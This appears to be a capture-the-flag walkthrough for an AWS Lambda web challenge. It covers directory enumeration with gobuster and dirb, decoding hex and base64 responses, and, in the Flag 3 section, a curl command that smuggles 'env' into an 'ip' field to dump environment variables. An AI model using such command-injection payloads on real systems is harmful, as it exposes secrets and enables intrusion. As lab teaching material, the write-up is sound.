 ## A3 - Lambda Challenge

### Flag 1
**Main goal:** Perform directory enumeration and find /api/version or /version paths

**Expected skills:** 
- Execute Web Application enumeration
- identify and decode hexadecimal

1. First step is to use an enumeration tool (gobuster, dirbuster, burp suit or other) with a dictionary of common paths, in the example bellow I used gobuster with a common dictionary on kali
   
    `gobuster dir -u https://5xjz0o4hak.execute-api.sa-east-1.amazonaws.com/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 10`

   ![img_6.png](images/img_6.png)

Other option could be dirb tool:

`dirb https://5xjz0o4hak.execute-api.sa-east-1.amazonaws.com/`

   ![img_7.png](images/img_7.png)


2. After accessing the found url, it is possible to see a message em hexadecimal

   ![img_8.png](images/img_8.png)


3. Use a hex converter to get flag 1

   ![img_9.png](images/img_9.png)

---

### Flag 2
**Main goal:** Access the documentation endpoint at /api/lkasjdlksjdflkj
**Expected skills:**
- Use tools to perform http requests (curl, burp suite, postman)
- have knowledge of the different methods for http requests

1. To resolve this challenge, it is necessary to send an HTTP request with method PATCH to the documentation endpoint
   
   - Using postman
     ![img_10.png](images/img_10.png)
   - Using curl
     ![img_11.png](images/img_11.png)
     
2. As the response is base64 encoded, it is necessary to decode it to get the flag, as shown below:
   ![img_12.png](images/img_12.png)
   

   ![img_13.png](images/img_13.png)

---

### Flag 3
**Main goal:** Exploit cmd injection vulnerability and get the flag in lambda environment
**Expected skills:**
- Use tools to perform http requests (curl, burp suite, postman)
- Explore cmd injection vulnerabilities
- Retrieve data from environment variables in lambda instances

1. There are two hidden api paths in the documentation, interacting with both it is possible to find a command execution on /api/oratoroeuaroupadoreideroma/status. In order to get the final flag, it is necessary to send a malicious POST request with command injection and read the environment variables, as demonstrated below:
   
   ![img_14.png](images/img_14.png)

   - Using curl
   ```shell
   curl --location --request POST 'https://5xjz0o4hak.execute-api.sa-east-1.amazonaws.com/api/oratoroeuaroupadoreideroma/status' --header 'Content-Type: text/plain' --data-raw '{"ip": "192.168.15.1; env;"}' --silent | egrep -i flag
   ```
   ![img_15.png](images/img_15.png)

 


 